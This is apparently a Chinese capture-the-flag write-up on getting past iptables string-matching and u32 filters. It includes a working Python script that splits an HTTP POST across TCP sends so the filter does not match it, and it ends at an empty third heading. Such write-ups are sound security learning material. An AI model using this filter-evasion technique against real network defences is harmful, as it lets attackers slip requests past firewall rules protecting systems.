 ### Batter my heart, three-personed God (Komm, süsser Flagge)

**从没觉得 TCP 有意思过**

```
-A myTCP-1 -p tcp -m string --algo bm --string "POST" -j REJECT --reject-with tcp-reset
```

过滤字符串 POST 的

想了下 payload 应该可以切开，那要么试试？

```python
import socket

ip = "202.38.93.111"
port = 18082
token = "YOUR_TOKEN"

# establish TCP conn
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

# "PO"
s.send(b"PO")

# "ST / HTTP/1.1"
request = "ST / HTTP/1.1\r\nHost: {}\r\nContent-Length: {}\r\n\r\n{}".format(ip, len(token), token)
s.send(request.encode())
# get response
response = s.recv(4096)
print(response.decode())

# close conn
s.close()

```

===

**那样就和单纯的复制没什么区别了**

```
-A myTCP-2 -p tcp -m u32 --u32 "0 >> 22 & 0x3C @ 12 >> 26 @ 0 >> 24 = 0x50" -j REJECT --reject-with tcp-reset
```

问 GPT，GPT 说 TCP Payload 的第一个字不能是 `\x50` 也就是 P。

我一开始傻不拉叽看反了，然后直接把第一问改了端口发出去了

flag 拿到了就没多想，现在一看是非预期（

===

**为什么 Layer 3 的东西都是又难又冷门的**
